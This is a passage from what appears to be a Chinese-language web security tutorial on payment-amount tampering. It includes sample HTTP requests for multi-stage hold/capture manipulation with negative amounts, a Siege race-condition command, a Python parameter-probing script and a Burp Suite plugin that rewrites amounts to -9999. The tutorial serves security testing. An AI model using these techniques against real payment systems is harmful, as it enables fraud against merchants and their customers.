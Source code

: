 ### 4.2 多阶段攻击
1. 正常支付阶段：
```http
POST /stage1 HTTP/1.1
Content-Length: 32

{"action":"hold","amount":1}
```

2. 实际扣款阶段篡改：
```http
POST /stage2 HTTP/1.1
Content-Length: 40

{"action":"capture","amount":-999}
```

### 4.3 时间差攻击
利用并发请求制造余额异常：
```bash
# 使用Siege进行并发测试
siege -c 50 -r 10 http://example.com/pay?amount=-100
```

## 五、自动化攻击工具
### 5.1 专用测试工具
使用Python编写参数篡改脚本：
```python
import requests

def negative_amount_injection(url, payload_template):
    for param in ['amount', 'total', 'sum']:
        modified = payload_template.replace('$param$', param)
        response = requests.post(url, data=modified)
        if "success" in response.text:
            print(f"Vulnerable parameter: {param}")
            return True
    return False
```

### 5.2 Burp Suite插件开发
篡改插件示例（Java）：
```java
public class NegativeAmountModifier implements IHttpListener {
    public void processHttpMessage(int toolFlag, boolean isRequest, 
                                 IHttpRequestResponse messageInfo) {
        if (isRequest) {
            IRequestInfo request = helpers.analyzeRequest(messageInfo);
            String body = new String(messageInfo.getRequest());
            
            // 正则匹配金额参数
            body = body.replaceAll("(\"amount\":\\s*)\\d+", "$1-9999");
            messageInfo.setRequest(body.getBytes());
        }
    }
}
```

